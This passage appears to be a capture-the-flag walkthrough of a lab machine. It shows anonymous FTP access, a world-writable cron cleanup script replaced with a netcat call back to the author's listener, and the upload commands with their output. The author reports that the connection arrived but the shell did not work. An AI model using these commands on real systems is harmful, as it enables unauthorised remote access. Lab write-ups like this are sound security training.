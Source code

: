 ```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
Yes, they really should disable anonymous login!

The **clean.sh** file looks like it just goes out there every so often and removes files from the /tmp directory. This is more than likely attached to a cron job that runs at a specified interval.

The **removed_files.log** just displays what clean.sh puts in it.

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

I decide to try and have it netcat back to my home system. I run `nc -nvlp 4444` on my system to set up a listener:
```
listening on [any] 4444 ...
```
I then modify the **clean.sh** script to connect back to my system:
```
#!/bin/bash

nc <MY IP> 4444
```
And upload it back to the FTP server:
```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||42895|)
150 Ok to send data.
100% |******************************************************************************************|    33        1.96 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes sent in 00:00 (0.20 KiB/s)
```
It connected back to my listener almost immediately, but I was not able to get the shell to work properly and broke out of it:
```
listening on [any] 4444 ...
```